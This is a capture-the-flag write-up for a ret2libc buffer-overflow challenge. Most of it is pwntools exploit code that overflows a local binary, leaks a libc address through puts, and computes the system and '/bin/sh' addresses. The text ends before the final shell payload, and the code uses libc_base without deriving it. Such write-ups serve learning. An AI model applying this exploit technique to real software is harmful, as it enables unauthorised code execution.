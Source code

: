 #  Zain CTF 2022 Binary Exploitation Writeups
## Classy: 
#### Tags: Buffer Overflow - ret2libc
this is a classic ret2libc challenge 
##### PLAN : 
    1.Find offset to overwrite RIP
    2.Leak libc address using puts
    3.Calculate system and binsh adressess 
    4.Send last payload to pop shell
    
> 1.Finding offset : 
> 
![](https://i.imgur.com/F1rOtjg.png)

![](https://i.imgur.com/aSr9Iq0.png)

now we start constructing our exploit 

```python=
from pwn import * 
context.update(arch='amd64',os='linux',log_level='debug')
p = process('./main')
elf = ELF('./main', checksec=0)
libc = elf.libc
offset = 120
rdi = p64(0x00000000004012cb)
ret = p64(0x0000000000401020)
```

> 2.Leak libc using puts:

```python=
payload = flat(
    b"A" * offset,
    rdi,
    p64(elf.got.puts),
    p64(elf.plt.puts),
    p64(elf.sym.main)
)
p.sendline(payload)
p.recvuntil('violence !')
p.recvline()
puts_got = u64(p.recv(6).ljust(8, b"\x00"))
log.success("puts@got" + hex(puts_got))
```
![](https://i.imgur.com/Rxrctpv.png)

>3.Calculate necessary addressess:

```python=
system = libc_base + libc.sym.system
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))
```
